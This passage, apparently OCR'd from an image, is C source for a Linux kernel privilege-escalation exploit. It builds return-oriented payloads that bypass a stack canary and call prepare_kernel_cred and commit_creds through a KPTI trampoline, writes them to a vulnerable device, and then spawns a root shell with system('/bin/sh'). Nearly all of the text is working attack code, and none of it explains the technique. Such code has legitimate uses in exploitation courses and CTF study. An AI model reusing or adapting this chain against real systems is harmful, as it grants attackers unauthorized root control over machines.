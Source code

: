 ```c
		system ("/bin/sh");
	}
	else
	{
		printf ("[Error] failed to do privilege escalation.\n");
	}
}

void run_commit_creds ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rdi_rbp_ret; //return address
	payload[21] = root_cred; // rdi = 0
	payload[22] = 0x0; // faked rbp
	payload[23] = commit_creds; // call commit_creds (root_cred)
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)spawn_root_shell;
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}

void get_cred()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov root_cred, rax;"
		".att_syntax;"
	);

	printf("[DEBUG] root cred is : 0x%lx\n", root_cred);

	run_commit_creds ();
}

/* call commit_creds (prepare_kernel_cred (0)) to get root privilege. */
void run_prepare_kernel_cred ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rdi_rbp_ret; //return address
	payload[21] = 0x0; // rdi = 0
	payload[22] = 0x0; // faked rbp
	payload[23] = prepare_kernel_cred; // call prepare_kernel_cred(0), return value is rax
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)get_cred;
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}
```